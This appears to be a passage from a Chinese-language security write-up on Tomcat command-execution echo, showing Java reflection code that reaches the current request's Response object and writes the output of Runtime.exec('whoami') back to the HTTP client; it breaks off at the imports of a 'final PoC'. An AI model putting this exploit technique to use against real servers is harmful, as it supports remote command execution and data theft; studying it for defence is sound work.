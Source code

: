 然后Connector的protocolHandler可以直接通过getProtocolHanlder方法获取，而且在获取global的时候，反射使用get方法必须传递实例

```
Method getHandlerMethod = AbstractProtocol.class.getDeclaredMethod("getHandler",null);
getHandlerMethod.setAccessible(true);
Field global = aClass.getDeclaredField("global");
global.setAccessible(true);
RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(getHandlerMethod.invoke(connectors[0].getProtocolHandler(),null));
```

获取到`Request`需要调用`request.getNote(1);`转换为`org.apache.catalina.connector.Request`的对象

```
通过调用 org.apache.coyote.Request#getNote(ADAPTER_NOTES) 和 org.apache.coyote.Response#getNote(ADAPTER_NOTES) 来获取 org.apache.catalina.connector.Request 和 org.apache.catalina.connector.Response 对象
```

```
org.apache.coyote.Request request = (org.apache.coyote.Request) req.get(requestInfo1);
org.apache.catalina.connector.Request request1 = (org.apache.catalina.connector.Request) request.getNote(1);
org.apache.catalina.connector.Response response = request1.getResponse();
```

最后通过缓冲器读出来，tomcat的write函数可以直接通过ascii码输出字符

```
InputStream inputStream = Runtime.getRuntime().exec("whoami").getInputStream();
BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
int a;
while ((a = bufferedInputStream.read())!=-1){
    response.getWriter().write(a);
}
```

也可以直接用println

```
InputStream whoami = Runtime.getRuntime().exec("whoami").getInputStream();
InputStreamReader inputStreamReader = new InputStreamReader(whoami);
BufferedReader bis = new BufferedReader(inputStreamReader);
String b = null;
while ((b = bis.readLine())!=null){
    response2.getWriter().println(b);
}
```

最后的poc

```
package com.example.spring.Controller;

import org.apache.catalina.connector.Connector;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.core.StandardService;
import org.apache.catalina.loader.WebappClassLoader;
import org.apache.catalina.loader.WebappClassLoaderBase;

import org.apache.coyote.*;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
```